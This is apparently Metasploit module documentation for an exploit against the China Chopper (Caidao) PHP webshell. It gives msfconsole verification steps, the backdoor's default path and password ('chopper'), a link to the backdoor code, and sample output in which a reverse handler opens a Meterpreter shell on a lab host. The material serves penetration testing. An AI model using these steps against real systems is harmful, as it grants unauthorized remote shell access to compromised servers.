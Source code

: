 ## Vulnerable Application

China Chopper Caidao PHP Backdoor or simply [Chinese Caidao](https://www.fireeye.com/blog/threat-research/2013/08/breaking-down-the-china-chopper-web-shell-part-i.html) is a webshell manager coded in PHP.

Here is the [PHP code](https://github.com/rapid7/metasploit-framework/files/430643/caidao.zip) of the backdoor that you can use and save it as caidao.php.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/caidao_php_backdoor_exec`
  4. Do: `set rport port`
  5. Do: `set rhost ip`
  6. Do: `check`
```
[+] 192.168.1.103:80 - The target is vulnerable.
```
  8. Do: `exploit`
  9. You should get a shell.

## Options

### TARGETURI

  TARGETURI by default is `/caidao.php`, which is the common filename of the backdoor.
  
### PASSWORD
  
  PASSWORD by default is `chopper`, which is the password of the backdoor.

## Scenarios

```
msf exploit(caidao_php_backdoor_exec) > exploit

[*] Started reverse handler on 192.168.1.108:4444 
[*] Sending stage (33068 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.108:4444 -> 192.168.1.103:42349) at 2015-11-02 09:05:54 +0000

meterpreter > sysinfo 
Computer    : kali
OS          : Linux kali 3.14-kali1-686-pae #1 SMP Debian 3.14.5-1kali1 (2014-06-07) i686
Meterpreter : php/php
```
